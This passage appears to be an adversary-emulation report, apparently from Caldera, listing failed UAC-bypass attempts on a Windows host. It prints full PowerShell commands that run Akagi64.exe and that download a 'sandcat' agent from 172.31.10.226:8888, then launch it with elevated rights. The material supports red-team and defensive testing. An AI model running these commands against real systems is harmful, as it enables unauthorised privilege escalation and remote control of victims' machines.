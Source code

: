   Status: Failed

  PID: 3228

  Start: 2024-09-13T17:40:21Z

  Command: 
```powershell
.\Akagi64.exe 30 C:\Windows\System32\cmd.exe
```


###   Description: UIPI bypass with uiAccess application


  Attack: {'tactic': 'privilege-escalation', 'technique_name': 'Abuse Elevation Control Mechanism: Bypass User Access Control', 'technique_id': 'T1548.002'}

  Status: Failed

  PID: 8740

  Start: 2024-09-13T17:42:29Z

  Command: 
```powershell
$url="http://172.31.10.226:8888/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$wc.Headers.add("server","http://172.31.10.226:8888");$wc.Headers.add("defaultSleep","60");$wc.Headers.add("defaultGroup","bypassed_u_bro");$data=$wc.DownloadData($url);$name=$wc.ResponseHeaders["Content-Disposition"].Substring($wc.ResponseHeaders["Content-Disposition"].IndexOf("filename=")+9).Replace("`"","");[io.file]::WriteAllBytes("C:\Users\Public\$name.exe",$data);.\Akagi64.exe 32 "C:\Users\Public\$name.exe -server http://172.31.10.226:8888"
```


###   Description: Bypass user account controls - medium


  Attack: {'tactic': 'privilege-escalation', 'technique_name': 'Abuse Elevation Control Mechanism: Bypass User Access Control', 'technique_id': 'T1548.002'}

  Status: Failed

  PID: 8132

  Start: 2024-09-13T17:44:10Z

  Command: 
```powershell
$url="http://172.31.10.226:8888/file/download"; $wc=New-Object System.Net.WebClient; $wc.Headers.add("platform","windows"); $wc.Headers.add("file","sandcat.go"); $data=$wc.DownloadData($url); $name=$wc.ResponseHeaders["Content-Disposition"].Substring($wc.ResponseHeaders["Content-Disposition"].IndexOf("filename=")+9).Replace("`"",""); [io.file]::WriteAllBytes("C:\Users\Public\$name.exe",$data);$job = Start-Job -ScriptBlock { Import-Module -Name .\Bypass-UAC.ps1; Bypass-UAC -Command "C:\Users\Public\$name.exe -group red"; };Receive-Job -Job $job -Wait;
```


## Host: ACME-HH-EUO (paw: acpuoe)
